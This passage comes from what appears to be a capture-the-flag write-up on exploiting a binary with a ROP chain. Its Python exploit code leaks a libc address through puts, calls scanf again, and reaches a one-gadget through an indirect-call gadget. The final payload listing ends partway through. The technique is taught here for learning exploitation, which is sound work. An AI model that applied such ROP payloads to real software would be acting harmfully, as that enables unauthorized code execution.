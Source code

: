 #### 3. Call the one gadget

The following gadget allow to do an indirect call:

```
0x00000000004011b0: mov rdx, r15; mov rsi, r14; mov edi, r13d; call [r12+8*rbx]
``` 

We must master registers r12 and rbx to call the one gadget function. The last gadget allow us to do that:

```
0x00000000004011ca: pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
```

The ROP part for this section is:

```python
gadget_pop_rbx_      = 0x4011ca
gadget_indirect_call = 0x4011b0

# Set value to registers
rbx = 0x0
ropchain += p64(gadget_pop_rbx_) + p64(rbx) + p64(0) + p64(target_addr) + 3*p64(0)
# Call the one gadget !
ropchain += p64(gadget_indirect_call)
```

#### 4. Put it all together

This is the final payload to exploit this binary used with the base script:

```python
import time
from struct import unpack

def get_ropchain(elf):
    ropchain = b'A'*32
    ropchain += p64(0xdeadbeef) # rbp

    # -> Now we are on RIP position

    # 1. Leak the libc address
    gadget_pop_rdi     = 0x4011d3

    # Set parameters before call puts
    ropchain += p64(gadget_pop_rdi) + p64(elf.got['printf'])
    # Call puts
    ropchain += p64(elf.plt['puts'])

    # 2. Recall scanf after the leak
    gadget_pop_rsi_r15 = 0x4011d1
    gadget_ret         = 0x400606
    format_string_s    = 0x4013E6
    target_addr        = 0x602100

    # Set parameters before call scanf
    ropchain += p64(gadget_pop_rdi) + p64(format_string_s)
    ropchain += p64(gadget_pop_rsi_r15) + p64(target_addr) + p64(0)
    # Realign the stack to 0x10
    ropchain += p64(gadget_ret)
    # Call scanf
    ropchain += p64(elf.plt['__isoc99_scanf'])

    # 3. Call the one gadget
    gadget_pop_rbx_      = 0x4011ca
    gadget_indirect_call = 0x4011b0

```